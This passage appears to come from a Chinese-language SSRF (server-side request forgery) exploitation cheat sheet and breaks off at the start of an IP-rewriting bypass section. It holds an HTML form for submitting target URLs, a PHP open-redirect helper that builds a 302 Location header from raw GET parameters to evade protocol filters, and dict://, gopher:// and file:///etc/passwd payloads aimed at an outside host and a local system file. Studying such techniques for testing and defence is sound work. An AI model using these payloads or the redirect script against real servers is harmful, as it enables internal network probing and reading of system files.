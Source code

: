 构造一个前端页面

```html
<html>
<body>
  <form name="px" method="post" action="http://127.0.0.1/ss.php">
    <input type="text" name="url" value="">
    <input type="submit" name="commit" value="submit">
  </form>
  <script></script>
</body>
</html>
```

请求非 HTTP 的端口可以返回 banner 信息。

或可利用 302 跳转绕过 HTTP 协议的限制。

辅助脚本

```php
<?php
$ip = $_GET['ip'];
$port = $_GET['port'];
$scheme = $_GET['s'];
$data = $_GET['data'];
header("Location: $scheme://$ip:$port/$data");
?>
```

[腾讯某处 SSRF 漏洞（非常好的利用点）附利用脚本](https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de_.html)

## 协议利用

-   Dict 协议

    ```
    dict://fuzz.wuyun.org:8080/helo:dict
    ```

-   Gopher 协议

    ```
    gopher://fuzz.wuyun.org:8080/gopher
    ```

-   File 协议

    ```
    file:///etc/passwd
    ```
## 绕过姿势
1.  更改IP地址写法
    例如`192.168.0.1`
    